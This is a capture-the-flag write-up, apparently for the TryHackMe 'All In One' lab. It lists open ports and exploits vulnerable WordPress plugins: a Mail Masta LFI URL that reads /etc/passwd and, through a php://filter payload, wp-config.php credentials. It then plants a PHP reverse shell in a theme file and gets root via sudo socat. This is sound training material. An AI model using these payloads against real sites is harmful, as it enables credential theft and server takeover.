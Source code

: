 # All In One
[TryHackMe room link](https://tryhackme.com/room/allinonemj)

# Informations about the room
> This box's intention is to help you practice several ways in exploiting a system. There is few intended paths to exploit it and few unintended paths to get root.
Try to discover and exploit them all. Do not just exploit it using intended paths, hack like a pro and enjoy the box !

# Open ports

21 ftp with anonymous access

22 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3

80 Apache httpd 2.4.29 ((Ubuntu))

# Enumeration

With directory enumeration you will find a /wordpress directory

Using WPScan 2 plugins are vulnerable:

```
MailMasta plugin vulnerable to LFI
http://10.10.52.146/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Plugin reflex-gallery vulnerable to arbitrary file upload
[https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_reflexgallery_file_upload/](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_reflexgallery_file_upload/)
```

With WPScan it's possible to enumerate wordpress users:
`wpscan --url 10.10.52.146/wordpress -e u`

We find the user `elyana`

Using the MailMasta LFI and some php encoding we can display the wordpress configuration file containing credentials:

`http://10.10.52.146/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php`

After logging in modify the `404.php` file with a php reverse shell

# Privilege escalation

We got a shell with the user `www-data`

We cannot cat the flag just yet, but we are provided with a hint:

```
Elyana's user password is hidden in the system. Find it ;)
```

After searching around in the file system we find a `private.txt` file

```
user: elyana
password: REDACTED
```

The user flag is base64 encoded:

```bash
echo "REDACTED" | base64 -d 
THM{REDACTED}
```

After logging in with user `elyana` we can use `sudo -l` and it turns out that it's possible to use `socat` with root permissions 

```console
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
 ```
 
You can spawn a shell with `socat` using:

```console
sudo socat stdin exec:/bin/sh
```

Now we are root

The root flag is encoded in base64 too:

```bash
echo "REDACTED" | base64
THM{REDACTED}
```
